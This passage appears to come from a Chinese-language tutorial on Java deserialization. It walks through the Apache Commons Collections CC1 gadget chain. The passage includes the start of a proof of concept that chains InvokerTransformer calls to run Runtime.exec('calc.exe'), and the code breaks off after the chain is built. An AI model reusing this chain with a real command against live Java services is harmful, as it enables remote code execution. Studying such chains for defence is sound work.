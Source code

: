 三个参数都显示出来了，然后进入下一步`InvokerTransformer--->transform`第一个判断为空的已经把for循环第一次空值给pass掉了，第一次的流程根本就没走到`try`抛出异常这一步，继续看第二次循环出现`exec`参数这次，上面已经分析过了，利用`invoke()`方法调用`Runtime.getRuntime().exec()`执行命令`clac`打开计算器。

![img](img/10.png)

这里算是把这个过程分析结束了。这里只是一个简单的版本，对于Transformer的分析。

#### CC1链分析

经过上面Transformer相关方法的了解，和那个过程，擦汗不多可以了解这个过程了，接下来就是找个CC链，详细执行过程分析一下。

```java
package CC;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.util.HashMap;
import java.util.Map;

public class CC1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
```